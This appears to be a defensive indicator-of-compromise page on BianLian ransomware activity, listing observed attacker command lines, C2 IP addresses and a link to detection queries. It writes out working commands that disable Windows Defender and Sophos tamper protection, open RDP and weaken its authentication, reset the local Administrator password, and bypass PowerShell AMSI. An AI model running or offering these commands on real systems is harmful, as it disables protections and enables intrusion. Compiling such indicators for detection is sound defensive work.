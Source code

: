 # \[Bian Lian IOCs\]
[Redacted blog](https://redacted.com/blog/bianlian-ransomware-gang-gives-it-a-go/?utm_source=Internal%20Referrals&utm_campaign=BianLian)
[KQL Queries](https://gist.github.com/jllangley/599318d80ac6cef69a8607881a5a7778)
### svchost spawned from parent process that is not services.exe
### svchost spawned from unusual path

### Netsh usage

```
"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes
```


```
"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow
```

### Disabling Defender

```
"C:\Windows\system32\Dism.exe" /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart
```

### Adding local user account 

```
"C:\Windows\system32\net.exe" localgroup "Remote Desktop Users" <similar name to existing admin/add
```

```
"C:\Windows\system32\net.exe" user <legitimate admin account3gDZNxtsQ9G029k7D6Ljxe /domain
```

### Enabling Remote Desktop Connection

```
"C:\Windows\system32\netsh.exe" advfirewall firewall set rule "group=remote desktop" new enable=Yes
```

```
"C:\Windows\system32\netsh.exe" advfirewall firewall add rule "name=allow RemoteDesktop" dir=in * protocol=TCP localport=3389 action=allow
```

```
"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /* v fAllowToGetHelp /t REG_DWORD /d 1 /f
```

```
"C:\Windows\system32\reg.exe" add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal * Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

### Disabling Sophos
```
"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SAVEnabled /d 0 /f
```

```
"C:\Windows\system32\reg.exe" ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sophos Endpoint * Defense\TamperProtection\Config" /t REG_DWORD /v SEDEnabled /d 0 /f
```

```
"C:\Windows\system32\reg.exe" ADD * HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Sophos\SAVService\TamperProtection /t REG_DWORD /v Enabled /d 0 /* f
```

### Enabling TightVNC in Safe Mode
```
"C:\Windows\system32\reg.exe" copy hklm\system\CurrentControlSet\services\tvnserver * hklm\system\CurrentControlSet\control\safeboot\network\tvnserver /s /f
```

```
\cmd.exe /Q /c net user "Administrator" /active:yes 1\\127.0.0.1\C$\Windows\Temp\abjAlC 2>&1
```

### Password Change to the local administrator account, output to file
```
cmd.exe /Q /c net user "Administrator" ChangeMe2morrow! 1\\127.0.0.1\C$\Windows\Temp\OxNEcz 2>&1
```

### Running the quser command and saving output to file
```
cmd.exe /Q /c quser 1\\127.0.0.1\C$\Windows\Temp\VXPrvY 2>&1
```

### Ping only once 
```
"C:\Windows\system32\PING.EXE" -4 -n 1 *
```

### Powershell AMSI Bypass [more info](https://blog.xpnsec.com/exploring-powershell-amsi-and-logging-evasion/)
```
[Ref].Assembly.GetType(‘System.Management.Automation.AmsiUtils’).GetField(‘amsiInitFailed’,’NonPublic,* Static’).SetValue($null,$true)
```

### C2 IP Addresses 
Current
```
("104.225.129.86","104.238.223.10","104.238.223.3","109.248.6.207","13.49.57.110","144.208.127.119","146.0.79.9","157.245.80.66","16.162.137.220","165.22.87.199","172.93.96.61","172.93.96.62","18.130.242.71","185.108.129.242","185.225.69.173","185.56.80.28","185.62.58.151","185.69.53.38","192.145.38.242","192.161.48.43","192.169.6.232","37.235.54.81","45.9.150.132","5.2.79.138","51.68.190.20","54.173.59.51","62.84.112.68","64.52.80.120","66.135.0.42","83.136.180.12","85.13.117.213","85.13.117.218","91.199.209.20","95.179.137.20")


Historical IPs
```
("104.207.155.133","104.238.61.153","146.70.44.248","155.94.160.241","167.88.15.98","172.96.137.107","188.166.81.141","194.26.29.131","194.5.212.205","194.58.119.159","198.252.108.34","202.66.72.7","208.123.119.145","209.141.54.205","23.227.198.243","23.94.56.154","43.155.116.250","45.144.30.139","45.92.156.105","5.188.6.118","5.230.67.2","85.13.116.194","85.13.117.219","89.22.224.3")
```
